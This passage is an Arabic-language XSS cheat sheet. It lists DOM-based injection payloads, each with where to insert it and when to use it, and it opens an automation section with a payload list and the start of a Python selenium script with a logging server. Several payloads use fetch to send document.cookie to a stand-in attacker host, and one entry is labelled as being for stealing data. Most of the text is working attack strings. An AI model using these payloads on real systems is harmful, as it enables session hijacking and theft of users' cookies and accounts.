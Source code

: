 #### و. حقن تستهدف DOM
{  #XSS_DOM  /  #XSS_exploit }
إدراج شيفرة تُعالج في JavaScript عبر DOM (مشابهة لـ DOM-Based XSS).
- **الحقن**: `<img src=x onerror=alert('XSS')>`
  - **الإدخال**: أدخل في URL: `https://example.com/#q=<img src=x onerror=alert('XSS')>`
  - **كيف يعمل**: ينفذ تنبيهًا إذا عُولج `location.hash` في DOM.
  - **متى يُستخدم؟**: لاستهداف معالجة العميل.
- **الحقن**: `<svg onload=fetch('http://attacker.com/log?c='+document.cookie)>`
  - **الإدخال**: أدخل في URL: `https://example.com/#q=<svg onload=fetch('http://attacker.com/log?c='+document.cookie)>`
  - **كيف يعمل**: يرسل ملفات تعريف الارتباط إذا عُولج في DOM.
  - **متى يُستخدم؟**: لسرقة البيانات.
- **الحقن**: `data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4`
  - **الإدخال**: أدخل في حقل معاينة: `data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4`
  - **كيف يعمل**: ينفذ تنبيهًا عبر HTML مشفر.
  - **متى يُستخدم؟**: لتجاوز فلاتر URL.
- **الحقن**: `javascript:fetch('http://attacker.com/log?c='+document.cookie)`
  - **الإدخال**: أدخل في حقل إعدادات URL: `javascript:fetch('http://attacker.com/log?c='+document.cookie)`
  - **كيف يعمل**: يرسل ملفات تعريف الارتباط إذا أُدرج في سمة `href`.
  - **متى يُستخدم؟**: لاستهداف بروتوكولات JavaScript.
- **الحقن**: `"-fetch('http://attacker.com/log?c='+document.cookie)-"`
  - **الإدخال**: أدخل في URL: `https://example.com/#q="-fetch('http://attacker.com/log?c='+document.cookie)-"`
  - **كيف يعمل**: يرسل ملفات تعريف الارتباط إذا عُولج في تعبير JavaScript.
  - **متى يُستخدم؟**: لاستهداف سياقات JavaScript.

### 2. الحقن للأتمتة
تُستخدم هذه الحقن مع سكربتات (مثل Python مع مكتبة `selenium`) لأتمتة اختبار نقاط إدخال عرضة لـ Self XSS، خاصة تلك التي تتطلب تفاعل المتصفح.

#### أ. إعداد قائمة الحقن
- **المحاولات**:
  - إنشاء قائمة بالحقن التي تستهدف سياقات HTML، سمات، JavaScript، وDOM.
  - مثال قائمة:
    ```
    <script>alert('XSS')</script>
    <img src=x onerror=fetch('http://attacker.com/log?c='+document.cookie)>
    <svg onload=eval(atob('YWxlcnQoJ1hTUycp'))>
    <a href="javascript:fetch('http://attacker.com/log?c='+document.cookie)">Click</a>
    ";fetch('http://attacker.com/log?c='+document.cookie);//
    ```
- **كيف يعمل**:
  - يتم إدخال الحقن في نقاط إدخال (مثل حقول النماذج أو URL).
  - يتم مراقبة المتصفح أو الخادم الخارجي لتأكيد التنفيذ.
- **متى يُستخدم؟**:
  - عند اختبار نقاط إدخال متعددة بسرعة.

#### ب. سكربت أتمتة بسيط
- **السكربت** (مثال بلغة Python مع `selenium` لمحاكاة التفاعل وخادم لتسجيل البيانات):
  ```python
  from http.server import BaseHTTPRequestHandler, HTTPServer
  from selenium import webdriver
  from selenium.webdriver.common.by import By
  import urllib.parse
  import time

  class LogServer(BaseHTTPRequestHandler):
      def do_GET(self):
          self.send_response(200)
          self.end_headers()
  ```